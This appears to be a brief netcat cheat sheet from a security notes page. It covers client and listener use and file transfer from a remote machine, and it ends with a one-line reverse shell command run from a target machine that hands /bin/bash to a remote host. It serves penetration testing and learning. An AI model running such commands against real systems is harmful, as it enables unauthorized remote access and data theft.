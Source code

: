 # Netcat

Detailed cheat sheet available here: [https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

`nc` can be used as shorthand for `netcat` on some machines.

## Basic Client

I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```